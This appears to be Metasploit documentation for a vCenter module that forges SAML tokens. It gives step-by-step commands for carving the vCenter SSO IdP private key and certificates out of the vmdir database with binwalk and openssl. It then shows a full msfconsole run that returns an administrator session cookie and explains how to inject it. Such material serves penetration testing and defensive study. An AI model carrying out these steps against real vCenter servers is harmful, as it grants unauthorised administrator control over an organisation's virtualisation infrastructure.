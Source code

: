 This module forges valid SAML credentials for vCenter server using the vCenter SSO IdP certificate,
IdP private key, and VMCA root certificate as input objects; you must also  provide the vCenter SSO
domain name and vCenter FQDN. Successful execution returns a session cookie for the `/ui` path that
grants access to the SSO domain as a vSphere administrator. The IdP trusted certificate chain can be
retrieved using Metasploit vCenter post-exploitation modules, or extracted manually from the vmdir
database file at `/storage/db/vmware-vmdir/data.mdb` using `binwalk`. This module is largely based
on information published by Zach Hanley at Horizon3:

https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Vulnerable Application
This module is tested against the vCenter appliance but will probably work against Windows instances.
It has been tested against vCenter appliance versions 6.5, 6.7, and 7.0, and will work on vCenter 7.0
Update 3 which introduced additional validation mechanisms to the SSO login process (RelayState). It
will probably work against other versions of vCenter appliance down to vCenter 6.0 but has not been
tested at versions below 6.5.

## Verification Steps
This module must be executed while the target vCenter server is reachable over the network. You must
already possess the SSO IdP certificate and key, and the VMCA certificate. These can be acquired by
using a Metasploit vCenter post-exploitation module (with access to a live system with root creds)
or by extracting the data manually from the vmdir database file using binwalk (with access to a
vCenter backup). By default, the target domain `vsphere.local` and target username `administrator`
are used; the target domain may be different depending on the scenario and should be adjusted
accordingly.

1. Acquire the vCenter IdP certificate and private key, and VMCA certificate (see below)
2. Start msfconsole
3. Do: `use auxiliary/admin/vmware/vcenter_forge_saml_token.rb`
4. Do: `set rhosts <vCenter appliance IPv4 or FQDN>`
5. Do: `set vc_fqdn <vCenter appliance FQDN>`
6. Do: `set vc_idp_cert <path to IdP cert>`
7. Do: `set vc_idp_key <path to IdP key>`
8. Do: `set vc_vmca_cert <path to VMCA cert>`
9. Verify that the values for `domain` and `username` are sane
10. Do: `run`
11. Open a web browser and navigate to the vCenter admin UI for the target server (`https://<fqdn>/ui`)
12. Apply the acquired session cookie for the vCenter host at the `/ui` path

## Options
**DOMAIN**

The vSphere SSO domain. By default this is `vsphere.local`.

**USERNAME**

The target user within the SSO domain. This must be a valid user as vCenter will happily issue
SAML assertions for invalid usernames, but the provided session tokens will not function. There
should be no reason to modify the target user from the default `administrator` in most scenarios.

**RHOSTS**

The vCenter appliance IPv4 address or DNS FQDN. This must be reachable over HTTPS for the module
to function.

**VC_FQDN**

The fully qualified DNS name of the vCenter appliance; this must be present in the Issuer element
of the assertion for the module to function.

**VC_IDP_CERT**

The filesystem path to the PEM-formatted vCenter SSO IdP certificate.

**VC_IDP_KEY**

The filesystem path to the PEM-formatted vCenter SSO IdP private key.

**VC_VMCA_CERT**

The filesystem path to the PEM-formatted vCenter VMCA certificate.

## Scenarios
### Extracting the vSphere SSO certificates
The vmdir database is hosted on the appliance at `/storage/db/vmware-vmdir/data.mdb` - it is possible
to extract the IdP keys from this file presuming you have root access to the appliance, or read access
to a vCenter backup repository. Copy the file to the local system, and use binwalk to scan for the
private key material.

`binwalk --signature ./data.mdb`

vSphere vmdir stores the IdP secrets without encryption within the database. There are many x509
certificates within the vmdir database but there should only be two private keys; you are looking for
two x509 v3 certificates in close proximity to two PKCS#1 RSA private keys in DER format. Below is an
example of the target location from a binwalk signature scan of an example vmdir database.

```
[...]
8839882       0x86E2CA        Certificate in DER format (x509 v3), header length: 4, sequence length: 991
8840880       0x86E6B0        Certificate in DER format (x509 v3), header length: 4, sequence length: 1079
8841970       0x86EAF2        Private key in DER format (PKCS header length: 4, sequence length: 1215
8841996       0x86EB0C        Private key in DER format (PKCS header length: 4, sequence length: 1189
[...]
```

The target data starts at offset `8839882` in this example. Adding the sequence lengths together we get `4474` bytes, thus:

`binwalk --offset=8839882 --length=4474 --dd=".*" ./data.mdb`

Will extract the target files.

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
8839882       0x86E2CA        Certificate in DER format (x509 v3), header length: 4, sequence length: 991
8840880       0x86E6B0        Certificate in DER format (x509 v3), header length: 4, sequence length: 1079
8841970       0x86EAF2        Private key in DER format (PKCS header length: 4, sequence length: 1215
8841996       0x86EB0C        Private key in DER format (PKCS header length: 4, sequence length: 1189

$ ls -l ./_data.mdb.extracted/
total 16
-rwxrwxrwx 1 cs137 cs137  995 Apr 21 06:55 86E2CA
-rwxrwxrwx 1 cs137 cs137 1083 Apr 21 06:55 86E6B0
-rwxrwxrwx 1 cs137 cs137 1219 Apr 21 06:55 86EAF2
-rwxrwxrwx 1 cs137 cs137 1193 Apr 21 06:55 86EB0C
```

These should be the VMCA root certificate and SSO IdP certificate and private key. Note that vmdir appears to store two
copies of the IdP private key, presumably to allow the key to be rotated if required. For a vanilla install of vCenter,
both private keys will be identical. To determine which one is which, first compare the certificate CN using OpenSSL. The
SSO IdP credential should have a common name of `ssoserverSign`.

```
openssl x509 -inform der -in ./_data.mdb.extracted/86E2CA -noout -subject
subject=CN = ssoserverSign

openssl x509 -inform der -in ./_data.mdb.extracted/86E6B0 -noout -subject
subject=CN = CA, DC = vsphere.local, C = US, ST = California, O = vcenter.cesium137.io, OU = VMware Engineering
```

This confirms that `86E2CA` is the IdP certificate, and `86E6B0` is the VMCA certificate. Convert them
to PEM format and rename them for convenience:

```
openssl x509 -inform der -in ./_data.mdb.extracted/86E2CA -outform pem -out ./idp.pem
openssl x509 -inform der -in ./_data.mdb.extracted/86E6B0 -outform pem -out ./vmca.pem
```

To associate  them with their private key, first calculate the SHA-256 digest of the modulus for
both certificates.

```
openssl x509 -in ./idp.pem -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -

openssl x509 -in ./vmca.pem -modulus -noout | sha256sum
432f0244896a3243f46d4a2f7322127a52b891a53b984745c286989c02862a13  -
```

Compare these to the modulus component of the candidate keys to associate them with the corresponding
certificate.

```
openssl rsa -inform der -in ./_data.mdb.extracted/86EAF2 -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -

openssl rsa -inform der -in ./_data.mdb.extracted/86EB0C -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -
```

Based on this output we conclude `86EAF2` and `86EB0C` are identical, and share a modulus with the
IdP certificate: either of these can be extracted. Convert the file to PEM format and rename it for
convenience.

```
openssl rsa -inform der -in ./_data.mdb.extracted/86EAF2 -outform pem -out ./idp.key
writing RSA key
```

You should now have `idp.pem`, `idp.key`, and `vmca.pem` in your working directory in PEM format.

### Running the Module
Example run from meterpreter session on vCenter appliance version 7.0 Update 3d:

```
msf6 > use auxiliary/admin/vmware/vcenter_forge_saml_token.rb
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set RHOSTS 192.168.100.110
RHOSTS => 192.168.100.110
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_FQDN vcenter.cesium137.io
VC_FQDN => vcenter.cesium137.io
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_IDP_CERT ~/idp.pem
VC_IDP_CERT => ~/idp.pem
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_IDP_KEY ~/idp.key
VC_IDP_KEY => ~/idp.key
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_VMCA_CERT ~/vmca.pem
VC_VMCA_CERT => ~/vmca.pem
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > run
[*] Running module against 192.168.100.110

[+] Validated vCenter Single Sign-On IdP trusted certificate chain
[*] HTTP GET => /ui/login ...
[*] HTTP POST => /ui/saml/websso/sso ...
[+] Got valid administrator session token!
[+]     JSESSIONID=61B850134A734E790AC3F2C644E2F7F0; Path=/ui
[*] Auxiliary module execution completed
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) >
```
### Using the Session Cookie
Inject the acquired session cookie using the method of your choice. The cookie name must be
`JSESSIONID` with the value returned from the auxiliary module, and the path for the cookie
must be set to `/ui`.